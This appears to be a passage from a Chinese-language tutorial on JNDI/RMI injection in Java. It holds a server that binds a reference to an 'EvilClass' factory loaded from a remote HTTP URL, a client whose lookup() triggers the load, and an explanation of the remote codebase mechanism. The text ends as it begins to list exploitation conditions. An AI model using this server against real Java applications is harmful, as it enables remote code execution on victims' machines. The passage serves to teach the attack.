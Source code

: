 BServer.java

```java
package org.rmi;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class BServer {
    public static void main(String args[]) throws Exception {
        String uri = "";
        if(args.length == 1) {
            uri = args[0];
        } else {
            uri = "http://127.0.0.1/demo.class";
        }
        System.out.println("[*]classFactoryLocation: " + uri);
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference refObj = new Reference("EvilClass", "EvilClassFactory", uri);
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
        System.out.println("[*]Binding 'demo' to 'rmi://192.168.43.201:1099/demo'");
        registry.bind("demo", refObjWrapper);
    }
}
```

BClient.java

```java
package org.rmi;

import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Properties;

public class BClient {
    public static void main(String[] args) throws Exception {
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        System.out.println("[*]Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
        ctx.lookup("demo");
    }
}
```

****************RMI远程恶意对象****************

攻击者实现一个RMI恶意远程对象并绑定到RMI Registry上，编译后的RMI远程对象类可以放在HTTP/FTP/SMB等服务器上，这个Codebase地址由远程服务器的 java.rmi.server.codebase 属性设置，供受害者的RMI客户端远程加载，RMI客户端在 lookup() 的过程中，会先尝试在本地CLASSPATH中去获取对应的Stub类的定义，并从本地加载，然而如果在本地无法找到，RMI客户端则会向远程Codebase去获取攻击者指定的恶意对象，这种方式将会受到 useCodebaseOnly 的限制。利用条件如下：
